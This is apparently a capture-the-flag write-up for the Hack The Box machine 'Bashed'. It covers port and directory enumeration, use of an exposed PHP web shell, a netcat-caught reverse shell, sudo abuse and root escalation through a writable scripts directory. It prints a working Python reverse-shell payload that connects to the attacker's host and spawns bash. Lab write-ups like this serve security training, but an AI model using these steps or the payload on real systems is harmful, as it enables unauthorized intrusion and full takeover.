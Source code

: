 ## Default Information
IP Address: 10.10.10.68\
OS: Linux


## Enumeration
First, let us add the the IP address and host to our ```/etc/hosts``` file

```
10.10.10.68    bashed.htb
```

Next, let us do a masscan to identify the ports of interest

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.68 --rate=1000 -e tun0

[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-09-28 13:30:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.68 
```

Using the ports obtained from masscan, we will then run a scan using nmap to enumerate the services operating behind each port. For this machine, only port 80 is open, which
means that only web service is available on this machine.

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 80	| http | Apache httpd 2.4.18 ((Ubuntu)) | Open |

## Discovery

First, we will use Gobuster to find the endpoints that are accessible from http://bashed.htb

```
──(kali㉿kali)-[~]
└─$ gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/28 09:31:43 Starting gobuster in directory enumeration mode
===============================================================
http://bashed.htb/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
http://bashed.htb/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/] 
http://bashed.htb/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/] 
http://bashed.htb/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/] 
http://bashed.htb/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]  
http://bashed.htb/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/] 
http://bashed.htb/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]  
http://bashed.htb/server-status        (Status: 403) [Size: 298]
```

Next, we will try to enumerate for VHosts using Gobuster. However, there doesn't seem to have any interesting outputs. 

Navigating to http;//bashed.htb/dev, we notice that there are a few php files that can be accessed. Clicking on the ```phpbash.php``` file, we realize that we have spawned a web shell

![Spawning web shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bashed/web_shell.PNG)

## Obtaining user flag

Using the web shell that we obtained, we will now get our user flag

```
www-data@bashed:/home# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# ls -la arrexel
total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
<Redacted user flag>
```

## Obtaining root flag

Next we will first create a reverse shell command from the webshell. Intercepting the request, we can modify the body parameters of the request to obtain a reverse shell. 

![Creating reverse shell payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bashed/reverse_shell.PNG)

Afterwhich, we will stabilize the shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000                          
listening on [any] 3000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.68] 55250
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$ export TERM=xterm
export TERM=xterm
www-data@bashed:/var/www/html/dev$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@bashed:/var/www/html/dev$
```

Next, we will execute ```sudo -l``` command to find out if we are able to execute any programs as sudo without password. We realize that we can execute commands as ```scriptmanager``` without any password. Knowing that, we will be able to escalate our privilege into ```scriptmanager```

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$
```

At the base directory, we noticed that all the directories has root as the owner, except for the ```/script``` directory

```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Sep 28 02:25 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 180 root          root              0 Sep 28 02:25 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            520 Sep 28 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Sep 28 11:27 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Sep 28 11:07 sys
drwxrwxrwt  10 root          root           4096 Sep 28 11:27 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Afterwhich, we will navigate to the ```/scripts``` directory and check the permissions of the file. There is nothing much that catches my eyes, regarding the file permissions. However, what I do realize is that teh files are created quite recently. This gives us the idea that the files might be routinely executed.

```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 484
drwxrwxr--  2 scriptmanager scriptmanager   4096 Sep 28 11:27 .
drwxr-xr-x 23 root          root            4096 Dec  4  2017 ..
-rw-------  1 scriptmanager scriptmanager   4096 Sep 28 11:20 .test.py.1.swo
-rwxr-xr-x  1 scriptmanager scriptmanager    229 Sep 28 03:24 back.py
-rwxr-xr-x  1 scriptmanager scriptmanager    224 Sep 28 03:22 back2.py
-rwxr-xr-x  1 scriptmanager scriptmanager    222 Sep 28 03:15 backdoor
-rwxr-xr-x  1 scriptmanager scriptmanager    224 Sep 28 03:22 backdoor1.py
-rwxr-xr-x  1 scriptmanager scriptmanager 458110 Aug 16 18:59 linpeas.sh
-rw-r--r--  1 scriptmanager scriptmanager     58 Dec  4  2017 test.py
-rw-r--r--  1 root          root              12 Sep 28 11:28 test.txt
scriptmanager@bashed:/scripts$ 
```

All we have to do is to save the reverse shell code in a python file in the ```/scripts``` directory and the code will be executed to create a reverse shell.

```
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.5",3000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

All that is left for us to do is to stabilize the shell and get the root flag

```
──(kali㉿kali)-[~/Desktop/PE]
└─$ nc -nlvp 3000                                                                   1 ⚙
listening on [any] 3000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.68] 55274
root@bashed:/scripts# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@bashed:/scripts# export TERM=xterm
export TERM=xterm
root@bashed:/scripts# stty cols 132 rows 34
stty cols 132 rows 34
root@bashed:/scripts# cd /root
cd /root
root@bashed:~# ls
ls
root.txt
root@bashed:~# cat root.txt
cat root.txt
<Redacted root flag>
```
